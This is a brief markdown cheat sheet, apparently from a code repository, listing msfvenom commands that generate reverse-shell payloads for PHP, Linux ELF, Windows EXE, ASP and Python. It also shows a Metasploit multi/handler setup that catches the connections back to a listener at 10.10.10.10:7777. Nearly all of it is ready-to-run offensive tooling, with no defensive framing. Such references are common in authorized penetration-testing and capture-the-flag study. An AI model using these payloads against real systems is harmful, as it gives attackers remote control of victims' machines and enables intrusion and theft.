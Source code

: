 # MSFVenom
Generate payloads

1. Generate Payload
```sh
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=7777 -f raw > shell.php
```

2. Catch Shell
Set up the mult-handler to receive an incoming connection:
```sh
msf > use exploit/multi/handler
set payload php/reverse_php
set lhost 10.10.10.10
set lport 7777
run
```

## Linux Executable and Linkable Format (elf)
The `exe` files of linux. When placing an `.elf` file you must also ensure you have execute permissions `chmod +x shell.elf`

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=7777 -f elf > rev_shell.elf
```

## Windows
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=7777 -f exe > rev_shell.exe
```

## PHP
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=7777 -f raw > rev_shell.php
```

## ASP
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=7777 -f asp > rev_shell.asp
```

## Python
```sh
msfvenom -p cmd/unix/reverse_python LHOST=10.10.10.10 LPORT=7777 -f raw > rev_shell.py
```
